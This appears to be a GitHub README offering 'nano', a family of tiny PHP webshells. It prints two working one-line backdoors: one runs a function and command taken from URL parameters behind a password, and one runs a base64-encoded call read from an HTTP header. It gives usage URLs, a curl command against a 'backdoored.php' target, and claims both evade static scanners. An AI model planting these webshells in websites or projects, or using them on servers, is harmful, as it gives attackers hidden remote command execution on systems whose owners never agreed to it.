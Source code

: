 # nano
Nano is a family of PHP webshell code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

### Nano
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?preg_match('/(.*)\((.*)\)/',base64_decode(substr(getallheaders()['x'],1)),$c);@$c[1]($c[2]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so you will need to base64 encode it i.e. `c3lzdGVtKGxzKQ==`
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`
Now open your terminal and type the following command
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
This 39 characters of code is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
